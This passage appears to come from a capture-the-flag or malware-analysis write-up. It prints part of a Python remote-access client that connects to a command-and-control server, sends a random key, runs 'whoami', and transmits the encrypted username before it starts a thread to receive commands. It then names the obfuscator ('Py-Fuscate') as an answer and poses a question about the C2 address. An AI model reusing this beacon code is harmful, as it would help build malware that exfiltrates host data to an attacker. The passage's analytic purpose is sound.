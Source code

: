 ```
            client.connect((TARGET_IP, TARGET_PORT))
            
            # Regenerate key
            k = ''.join(random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16))
            client.send(k.encode())
            
            # Send user info
            user = os.popen("whoami").read()
            enc_answer = enc_mes(f"{user}{SEPARATOR}", k)
            client.send(enc_answer)
            client.settimeout(600)

# Main execution
if __name__ == "__main__":
    try:
        # Create socket
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        # Connect to C2 server
        client.connect((TARGET_IP, TARGET_PORT))
        
        # Generate random encryption key
        k = ''.join(random.SystemRandom().choice(string.ascii_letters + string.digits) for _ in range(16))
        client.send(k.encode())
        
        # Send user info
        user = os.popen("whoami").read()
        enc_answer = enc_mes(f"{user}{SEPARATOR}", k)
        client.send(enc_answer)
        
        # Set timeout
        client.settimeout(600)
        
        # Delay
        time.sleep(50)
        
        # Start receive thread
        receive_thread = threading.Thread(target=receive, args=(client, k))
        receive_thread.start()
    
    except Exception:
        # Error handling (connection failed, etc.)
        pass

```

**Answer: Py-Fuscate**

### Question 4: What is the IP address and port used by the malware to establish a connection with the Command and Control (C2) server?
